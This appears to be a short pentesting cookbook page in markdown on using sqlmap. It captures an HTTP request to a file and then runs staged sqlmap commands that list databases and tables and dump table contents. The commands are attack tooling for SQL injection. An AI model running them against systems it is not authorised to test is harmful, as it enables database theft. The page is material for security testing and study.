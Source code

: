 ```yaml
---
layout: default
title: SqlMap
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## SQLMap Using HTTP Request
First, capture a HTTP request containing the querystring/items you want to fuzz and save it to file. You may need to make the request first to get a cookie or session ID. Something like:
```bash
GET /page.php?id=1 HTTP/1.1
Host: host.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=dkjsol3fp464kafr9tpce0h3l1; XXXXX=jmoabd0jv2smj2g15n20mup26i
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Run SQLMap in stages using the request:
```bash
// Retrieve database names.
sqlmap -r <file-containing-request> --threads=10 --dbs

// Retrieve table names.
sqlmap -r <file-containing-request> --threads=10 -D <db-name> --tables

// Dump table contents.
sqlmap -r <file-containing-request> --threads=10 -D <db-name> -T <table-name> --dump
```